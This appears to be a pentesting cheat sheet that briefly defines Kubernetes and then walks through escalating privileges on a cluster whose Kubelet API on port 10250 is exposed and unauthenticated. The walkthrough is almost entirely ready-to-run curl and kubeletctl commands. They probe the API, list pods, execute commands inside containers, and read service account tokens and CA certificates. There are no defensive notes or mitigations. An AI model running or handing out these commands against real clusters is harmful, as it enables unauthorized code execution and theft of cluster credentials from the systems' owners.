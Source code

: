 # Kubernetes (K8s)

* **Definition**: Open-source container orchestration platform.
* **Purpose**: Deploy, scale, and manage containerized applications.
* **Components**:
  * Control Plane: `API server`, `Scheduler`, `Controller Manager`, `etcd`
  * Worker Nodes (Minions): Run actual containers

Escalate privileges in a Kubernetes cluster by abusing the **Kubelet API** on port `10250` if it's **exposed and unauthenticated**

***

#### Step 1: Check if the Kubelet API is Exposed

```bash
curl -k https://<NODE_IP>:10250/pods

# If you get a JSON response → Kubelet is exposed.
# If you get “unauthorized” or a cert error → may need a token or client cert.
```

#### Step 2: Install kubeletctl (if not already installed)

```bash
go install github.com/cyberark/kubeletctl@latest
```

#### Step 3: List Running Pods

```bash
kubeletctl --server <NODE_IP>:10250 pods
```

#### Step 4: Try Remote Code Execution (RCE)

```bash
kubeletctl --server <NODE_IP>:10250 exec -p <POD_NAME> -c <CONTAINER_NAME> "id"
```

#### Step 5: Extract Service Account Token and CA Cert

```bash
kubeletctl --server <NODE_IP>:10250 exec -p <POD_NAME> -c <CONTAINER_NAME> "cat /var/run/secrets/kubernetes.io/serviceaccount/token"

kubeletctl --server <NODE_IP>:10250 exec -p <POD_NAME> -c <CONTAINER_NAME> "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt"
```
